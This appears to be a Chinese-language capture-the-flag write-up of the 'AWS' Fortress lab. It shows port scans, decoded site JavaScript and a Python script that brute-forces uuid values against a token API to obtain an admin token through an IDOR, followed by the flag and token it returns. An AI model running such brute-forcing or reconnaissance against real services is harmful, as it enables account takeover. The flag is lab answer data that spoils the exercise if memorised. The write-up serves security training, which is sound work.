



# AWS

:::note ABOUT AWS

In 2006, Amazon Web Services (AWS) began offering IT infrastructure services to businesses in the form of web services -- now commonly known as cloud computing.

Today, Amazon Web Services provides a highly reliable, scalable, low-cost infrastructure platform in the cloud that powers hundreds of thousands of businesses in 190 countries around the world.

Amazon security is on the cutting edge of many security issues for a wide variety of platforms and technologies including cloud services, Internet of things (IoT), identity and access management, mobile devices, virtualization and custom hardware, all operating at massive scale.

The AWS Security team shapes and executes the security model for AWS, addressing important considerations for companies thinking about adopting cloud technology. We are also a product team that develops services to provide access control, threat detection, and DDoS protection, allowing companies to scale and innovate in a secure environment. These solutions enable customers to define their own security policies and help developers build cloud-backed applications that are secure.

As a Security Engineer you will work cross-functionally to assess risk and help deliver countermeasures that protect customers and company data. You will work with engineering teams to create solutions that solve or remediate security problems. You'll advise peers, managers, and senior leaders in order to help influence and drive partner-team compliance in the form of data classification, regulatory obligations, and other security goals. The impact of our work, the complexity of the technical challenges we solve, and the volume of requests we process are a testament to the significant part the team plays in ensuring that customers have the security and reliability they need.

2006 年，亚马逊网络服务 (AWS) 开始以网络服务的形式向企业提供 IT 基础设施服务，如今我们通常称之为云计算。

如今，亚马逊网络服务在云中提供了一个高度可靠、可扩展且低成本的基础设施平台，为全球 190 个国家的数十万家企业提供支持。

亚马逊安全位于各种平台和技术（包括云服务、物联网 (IoT)、身份和访问管理、移动设备、虚拟化和定制硬件）的许多安全问题的最前沿，所有这些都以大规模运行。

AWS 安全团队制定并执行 AWS 的安全模型，针对考虑采用云技术的公司解决重要问题。我们也是一个产品团队，开发服务以提供访问控制、威胁检测和 DDoS 保护，从而使公司能够在安全的环境中扩展和创新。这些解决方案使客户能够定义自己的安全策略，并帮助开发人员构建安全的云端应用程序。

作为一名安全工程师，您将跨职能地工作，以评估风险并帮助提供保护客户和公司数据的对策。您将与工程团队合作，创建解决方案来解决或补救安全问题。您将为同僚、经理和高级领导提供建议，以帮助影响和推动合作伙伴团队在数据分类、监管义务和其他安全目标方面的合规性。我们工作的成果、我们解决的技术挑战的复杂性以及我们处理的请求量证明了团队在确保客户拥有所需的安全性和可靠性方面发挥的重要作用。

:::

## ENTRY POINT

```plaintext
10.13.37.15
```

## First of all

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.13.37.15"
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Apache httpd 2.4.52 ((Win64))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64)
|_http-title: Site doesn't have a title (text/html).
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-11 14:05:19Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: amzcorp.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: amzcorp.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
```

```plaintext title="sudo nmap -A --min-rate=5000 -T4 -sU --top-ports 20 10.13.37.15"
PORT      STATE         SERVICE      VERSION
53/udp    open          domain       Simple DNS Plus
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open          ntp          NTP v3
| ntp-info:
|_
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```

```plaintext title="crackmapexec smb 10.13.37.15"
SMB         10.13.37.15     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:amzcorp.local) (signing:True) (SMBv1:False)
```

## Introduction

```plaintext
This interesting fortress from AWS features a wide variety of realistic and current techniques, ranging from web exploitation to cloud privilege escalations. This fortress is ideal for those who have a good understanding of web penetration testing and a basic knowledge of cloud services.
In conquering this Fortress, participants will learn web application pentesting, forensics & reversing, cloud exploitation, and Active Directory abuse.

AWS 的这个有趣的堡垒展示了各种逼真且当前的技术，从网络利用到云权限提升。此堡垒非常适合那些对网络渗透测试有良好理解且对云服务有基本了解的人员。

在征服此堡垒时，参与者将学习 Web 应用程序渗透测试、取证和逆向工程、云利用和 Active Directory 滥用。
```

## Early Access

尝试直接通过 ip 地址进行访问

```plaintext title="http get 10.13.37.15"
<html><meta http-equiv="refresh" content="0; url=http://jobs.amzcorp.local/" /></html>
```

添加以下 hosts 记录

```plaintext title="/etc/hosts"
10.13.37.15 amzcorp.local
10.13.37.15 dc01.amzcorp.local
10.13.37.15 jobs.amzcorp.local
```

再次进行访问



可以尝试创建一个用户



登陆后得到



在页面资源中，看到 `app.js`


使用 JJEncode 进行解码

```javascript
"use strict";
const d = document;
d.addEventListener("DOMContentLoaded", function(event) {

    const swalWithBootstrapButtons = Swal.mixin({
        customClass: {
            confirmButton: 'btn btn-primary me-3',
            cancelButton: 'btn btn-gray'
        },
        buttonsStyling: false
    });

    var themeSettingsEl = document.getElementById('theme-settings');
    var themeSettingsExpandEl = document.getElementById('theme-settings-expand');

    if(themeSettingsEl) {

        var themeSettingsCollapse = new bootstrap.Collapse(themeSettingsEl, {
            show: true,
            toggle: false
        });

        if (window.localStorage.getItem('settings_expanded') === 'true') {
            themeSettingsCollapse.show();
            themeSettingsExpandEl.classList.remove('show');
        } else {
            themeSettingsCollapse.hide();
            themeSettingsExpandEl.classList.add('show');
        }

        themeSettingsEl.addEventListener('hidden.bs.collapse', function () {
            themeSettingsExpandEl.classList.add('show');
            window.localStorage.setItem('settings_expanded', false);
        });

        themeSettingsExpandEl.addEventListener('click', function () {
            themeSettingsExpandEl.classList.remove('show');
            window.localStorage.setItem('settings_expanded', true);
            setTimeout(function() {
                themeSettingsCollapse.show();
            }, 300);
        });
    }

    // options
    const breakpoints = {
        sm: 540,
        md: 720,
        lg: 960,
        xl: 1140
    };

    var sidebar = document.getElementById('sidebarMenu')
    if(sidebar && d.body.clientWidth < breakpoints.lg) {
        sidebar.addEventListener('shown.bs.collapse', function () {
            document.querySelector('body').style.position = 'fixed';
        });
        sidebar.addEventListener('hidden.bs.collapse', function () {
            document.querySelector('body').style.position = 'relative';
        });
    }

    var iconNotifications = d.querySelector('.notification-bell');
    if (iconNotifications) {
        iconNotifications.addEventListener('shown.bs.dropdown', function () {
            iconNotifications.classList.remove('unread');
        });
    }

    [].slice.call(d.querySelectorAll('[data-background]')).map(function(el) {
        el.style.background = 'url(' + el.getAttribute('data-background') + ')';
    });

    [].slice.call(d.querySelectorAll('[data-background-lg]')).map(function(el) {
        if(document.body.clientWidth> breakpoints.lg) {
            el.style.background = 'url(' + el.getAttribute('data-background-lg') + ')';
        }
    });

    [].slice.call(d.querySelectorAll('[data-background-color]')).map(function(el) {
        el.style.background = 'url(' + el.getAttribute('data-background-color') + ')';
    });

    [].slice.call(d.querySelectorAll('[data-color]')).map(function(el) {
        el.style.color = 'url(' + el.getAttribute('data-color') + ')';
    });

    //Tooltips
    var tooltipTriggerList = [].slice.call(document.querySelectorAll('[data-bs-toggle="tooltip"]'))
    var tooltipList = tooltipTriggerList.map(function (tooltipTriggerEl) {
    return new bootstrap.Tooltip(tooltipTriggerEl)
    })


    // Popovers
    var popoverTriggerList = [].slice.call(document.querySelectorAll('[data-bs-toggle="popover"]'))
    var popoverList = popoverTriggerList.map(function (popoverTriggerEl) {
      return new bootstrap.Popover(popoverTriggerEl)
    })


    // Datepicker
    var datepickers = [].slice.call(d.querySelectorAll('[data-datepicker]'))
    var datepickersList = datepickers.map(function (el) {
        return new Datepicker(el, {
            buttonClass: 'btn'
          });
    })

    if(d.querySelector('.input-slider-container')) {
        [].slice.call(d.querySelectorAll('.input-slider-container')).map(function(el) {
            var slider = el.querySelector(':scope .input-slider');
            var sliderId = slider.getAttribute('id');
            var minValue = slider.getAttribute('data-range-value-min');
            var maxValue = slider.getAttribute('data-range-value-max');

            var sliderValue = el.querySelector(':scope .range-slider-value');
            var sliderValueId = sliderValue.getAttribute('id');
            var startValue = sliderValue.getAttribute('data-range-value-low');

            var c = d.getElementById(sliderId),
                id = d.getElementById(sliderValueId);

            noUiSlider.create(c, {
                start: [parseInt(startValue)],
                connect: [true, false],
                //step: 1000,
                range: {
                    'min': [parseInt(minValue)],
                    'max': [parseInt(maxValue)]
                }
            });
        });
    }

    if (d.getElementById('input-slider-range')) {
        var c = d.getElementById("input-slider-range"),
            low = d.getElementById("input-slider-range-value-low"),
            e = d.getElementById("input-slider-range-value-high"),
            f = [d, e];

        noUiSlider.create(c, {
            start: [parseInt(low.getAttribute('data-range-value-low')), parseInt(e.getAttribute('data-range-value-high'))],
            connect: !0,
            tooltips: true,
            range: {
                min: parseInt(c.getAttribute('data-range-value-min')),
                max: parseInt(c.getAttribute('data-range-value-max'))
            }
        }), c.noUiSlider.on("update", function (a, b) {
            f[b].textContent = a[b]
        });
    }

    //Chartist

    if(d.querySelector('.ct-chart-sales-value')) {
        //Chart 5
          new Chartist.Line('.ct-chart-sales-value', {
            labels: ['Mon', 'Tue', 'Wed', 'Thu', 'Fri', 'Sat', 'Sun'],
            series: [
                [0, 10, 30, 40, 80, 60, 100]
            ]
          }, {
            low: 0,
            showArea: true,
            fullWidth: true,
            plugins: [
              Chartist.plugins.tooltip()
            ],
            axisX: {
                // On the x-axis start means top and end means bottom
                position: 'end',
                showGrid: true
            },
            axisY: {
                // On the y-axis start means left and end means right
                showGrid: false,
                showLabel: false,
                labelInterpolationFnc: function(value) {
                    return '$' + (value / 1) + 'k';
                }
            }
        });
    }

    if(d.querySelector('.ct-chart-ranking')) {
        var chart = new Chartist.Bar('.ct-chart-ranking', {
            labels: ['Mon', 'Tue', 'Wed', 'Thu', 'Fri', 'Sat'],
            series: [
              [1, 5, 2, 5, 4, 3],
              [2, 3, 4, 8, 1, 2],
            ]
          }, {
            low: 0,
            showArea: true,
            plugins: [
              Chartist.plugins.tooltip()
            ],
            axisX: {
                // On the x-axis start means top and end means bottom
                position: 'end'
            },
            axisY: {
                // On the y-axis start means left and end means right
                showGrid: false,
                showLabel: false,
                offset: 0
            }
            });

          chart.on('draw', function(data) {
            if(data.type === 'line' || data.type === 'area') {
              data.element.animate({
                d: {
                  begin: 2000 * data.index,
                  dur: 2000,
                  from: data.path.clone().scale(1, 0).translate(0, data.chartRect.height()).stringify(),
                  to: data.path.clone().stringify(),
                  easing: Chartist.Svg.Easing.easeOutQuint
                }
              });
            }
        });
    }

    if(d.querySelector('.ct-chart-traffic-share')) {
        var data = {
            series: [70, 20, 10]
          };

          var sum = function(a, b) { return a + b };

          new Chartist.Pie('.ct-chart-traffic-share', data, {
            labelInterpolationFnc: function(value) {
              return Math.round(value / data.series.reduce(sum) * 100) + '%';
            },
            low: 0,
            high: 8,
            donut: true,
            donutWidth: 20,
            donutSolid: true,
            fullWidth: false,
            showLabel: false,
            plugins: [
              Chartist.plugins.tooltip()
            ],
        });
    }

    if (d.getElementById('loadOnClick')) {
        d.getElementById('loadOnClick').addEventListener('click', function () {
            var button = this;
            var loadContent = d.getElementById('extraContent');
            var allLoaded = d.getElementById('allLoadedText');

            button.classList.add('btn-loading');
            button.setAttribute('disabled', 'true');

            setTimeout(function () {
                loadContent.style.display = 'block';
                button.style.display = 'none';
                allLoaded.style.display = 'block';
            }, 1500);
        });
    }

    var scroll = new SmoothScroll('a[href*="#"]', {
        speed: 500,
        speedAsDuration: true
    });

    if(d.querySelector('.current-year')){
        d.querySelector('.current-year').textContent = new Date().getFullYear();
    }

    // Glide JS

    if (d.querySelector('.glide')) {
        new Glide('.glide', {
            type: 'carousel',
            startAt: 0,
            perView: 3
          }).mount();
    }

    if (d.querySelector('.glide-testimonials')) {
        new Glide('.glide-testimonials', {
            type: 'carousel',
            startAt: 0,
            perView: 1,
            autoplay: 2000
          }).mount();
    }

    if (d.querySelector('.glide-clients')) {
        new Glide('.glide-clients', {
            type: 'carousel',
            startAt: 0,
            perView: 5,
            autoplay: 2000
          }).mount();
    }

    if (d.querySelector('.glide-news-widget')) {
        new Glide('.glide-news-widget', {
            type: 'carousel',
            startAt: 0,
            perView: 1,
            autoplay: 2000
          }).mount();
    }

    if (d.querySelector('.glide-autoplay')) {
        new Glide('.glide-autoplay', {
            type: 'carousel',
            startAt: 0,
            perView: 3,
            autoplay: 2000
          }).mount();
    }

    // Pricing countup
    var billingSwitchEl = d.getElementById('billingSwitch');
    if(billingSwitchEl) {
        const countUpStandard = new countUp.CountUp('priceStandard', 99, { startVal: 199});
        const countUpPremium = new countUp.CountUp('pricePremium', 199, { startVal: 299});

        billingSwitchEl.addEventListener('change', function() {
            if(billingSwitch.checked) {
                countUpStandard.start();
                countUpPremium.start();
            } else {
                countUpStandard.reset();
                countUpPremium.reset();
            }
        });
    }

});

SetDatePicker();

$(document).ready(function () {
    // Delete Item
    $('.item-row').on('click', '.delete_item', function (event) {
        event.preventDefault();
        var btn = $(this);
        var url = btn.data('href');
        var param = [];
        param['url'] = url;
        param['btn'] = btn;

        $.confirm({
                title: 'Warning!',
                content: 'Are you sure you want to delete?',
                type: 'red',
                buttons: {
                    yes: function () {
                        AjaxRemoveItem(param);
                    },
                    no: function () {
                    }
                }
            },
        );
    });

    // Edit Item by double click
    $('.item-row').dblclick(function (event) {
        event.preventDefault();
        var item = $(this);
        var url = item.data('edit');
        var param = [];
        param['url'] = url;
        param['item'] = item;
        AjaxGetEditRowForm(param);
    });

    // Save form with click button
    $('.item-row').on('click', '.save_form', function (event) {
        event.preventDefault();
        var btn = $(this);
        SaveItem(btn);
    });

    // Save form with ENTER
    $('.item-row').keyup('.value', function (event) {
        if (event.keyCode === 13) {
            event.preventDefault();
            var btn = $(this);
            SaveItem(btn);
        }
    });
    $('.item-row').keyup('.name', function (event) {
        if (event.keyCode === 13) {
            event.preventDefault();
            var btn = $(this);
            SaveItem(btn);
        }
    });

    // Cancel edit form
    $('.item-row').on('click', '.cancel_form', function (event) {
        event.preventDefault();
        var btn = $(this);
        var item = btn.closest('.item-row');
        var url = item.data('detail');
        var param = [];
        param['url'] = url;
        param['item'] = item;
        AjaxGetEditRowDetail(param);
    });
});


// Functions

function AjaxGetEditRowDetail(param) {
    $.ajax({
        url: param['url'],
        type: 'GET',
        success: function (data) {
            param['item'].html(data);
        },
        error: function () {
            notification.error('Error occurred');
        }
    });
}

function AjaxGetEditRowForm(param) {
    $.ajax({
        url: param['url'],
        type: 'GET',
        success: function (data) {
            param['item'].html(data);
            SetDatePicker();
        },
        error: function () {
            notification.error('Error occurred');
        }
    });
}

function AjaxPutEditRowForm(param) {
    $.ajax({
        url: param['url'],
        type: 'PUT',
        data: param['query'],
        beforeSend: function (xhr) {
            xhr.setRequestHeader("X-CSRFToken", $.cookie('csrftoken'));
        },
        success: function (data) {
            notification[data.valid](data.message);

            if (data.valid === 'success') {
                param['item'].html(data.edit_row);
                SetDatePicker();
            }
        },
        error: function () {
            toastr.error('Error occurred');
        }
    });
}

function AjaxRemoveItem(param) {
    $.ajax({
        url: param['url'],
        type: 'DELETE',
        data: param['query'],
        beforeSend: function (xhr) {
            xhr.setRequestHeader("X-CSRFToken", $.cookie('csrftoken'));
        },
        success: function (data) {
            if (data.valid !== 'success')
                notification[data.valid](data.message);

            if (data.valid === 'success') {
                if (data.redirect_url) {
                    window.location.replace(data.redirect_url);
                } else {
                    notification[data.valid](data.message);
                    var item_row = param['btn'].closest('.item-row');
                    item_row.hide('slow', function () {
                        item_row.remove();
                    });
                }
            }
        },
        error: function () {
            toastr.error('Error occurred');
        }
    });
}

function SaveItem(btn) {
    var item = btn.closest('.item-row');
    var url = item.data('edit');
    var param = [];
    param['url'] = url;
    param['item'] = item;
    param['query'] = $('.value').serialize() + '&' + $('.name').serialize() + '&' + $('.type').serialize();
    AjaxPutEditRowForm(param);
}

function SetDatePicker() {
    var datepickers = [].slice.call(d.querySelectorAll('.datepicker_input'));
    datepickers.map(function (el) {
        return new Datepicker(el, {format: 'yyyy-mm-dd'});
    });
}

function GenerateToken() {
    var generate_token = document.getElementById('generate_token');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/generate_token');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = {
        "generate_token": generate_token
    }
    xhr.send(data);
}

function GetToken() {
    var uuid = document.getElementById('uuid');
    var username = document.getElementById('username');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/get');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = btoa('{"get_token":"True","uuid":' + uuid ',"username":' + username + '}');
    xhr.send({
        "data": data
    });
}

function GetLogData() {
    var log_table = document.getElementById('log_table');
    const xhr = new XMLHttpRequest();

    xhr.open('GET', '/api/v4/logs/get_logs');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            log_table.append(this.response['log']);
        }
    };
    xhr.send();
}function GenerateToken() {
    var generate_token = document.getElementById('generate_token');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/generate');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = {
        "generate_token": generate_token
    }
    xhr.send(data);
}

function GetToken() {
    var uuid = document.getElementById('uuid');
    var username = document.getElementById('username');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/get');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = btoa('{"get_token":"True","uuid":' + uuid ',"username":' + username + '}');
    xhr.send({
        "data": data
    });
}

function GetLogData() {
    var log_table = document.getElementById('log_table');
    const xhr = new XMLHttpRequest();

    xhr.open('GET', '/api/v4/logs/get');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            log_table.append(this.response['log']);
        } else {
            log_table.append("Error retrieving logs from logs.amzcorp.local");
        }
    };
    xhr.send();
}
```

在其中，注意到

```javascript
function GetToken() {
    var uuid = document.getElementById('uuid');
    var username = document.getElementById('username');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/get');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = btoa('{"get_token":"True","uuid":' + uuid ',"username":' + username + '}');
    xhr.send({
        "data": data
    });
}
```

那么就可以通过脚本，基于对 uuid 的爆破，来获取到管理员权限的 token 数据

由于我本地环境使用 kali 上的 socks5 来访问环境，所以我的脚本添加了额外的对于代理的处理

```python
import requests, base64, sys
from pwn import log
import urllib3

# 禁用 InsecureRequestWarning 警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


# 设置 SOCKS5 代理
proxies = {
    "http": "socks5://127.0.0.1:10000",
    "https": "socks5://127.0.0.1:10000",
}
hosts = {"jobs.amzcorp.local": "10.13.37.15"}

bar = log.progress("uuid")

hostname = "jobs.amzcorp.local"


target = f"http://{hosts[hostname]}/api/v4/tokens/get"

cookies = {
    "session": "......"
}
headers = {"Content-Type": "application/json", "Host": hostname}

for uuid in range(0, 1000):
    data = '{"get_token":"True","uuid":"%d","username":"admin"}' % uuid
    json = {"data": base64.b64encode(data.encode()).decode()}

    request = requests.post(target, headers=headers, cookies=cookies, json=json, proxies=proxies, verify=False)
    bar.status(uuid)

    if "Invalid" not in request.text:
        print(request.text.strip())
        bar.success(uuid)
        sys.exit(0)
```

大概在 `uuid: 990` 的时候，可以得到

```json
{
    "flag": "AWS{S1mPl3_iD0R_4_4dm1N}",
    "token": "98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a",
    "username": "admin",
    "uuid": "955"
}
```

## Inspector

对发现的Javascript脚本继续分析，得到以下路径

```plaintext
/api/v4/tokens/generate_token
/api/v4/tokens/get
/api/v4/logs/get_logs
/api/v4/tokens/generate
/api/v4/tokens/get
/api/v4/logs/get
```

同时，经过爆破，还得到了这个路由

```plaintext
/api/v4/status
```
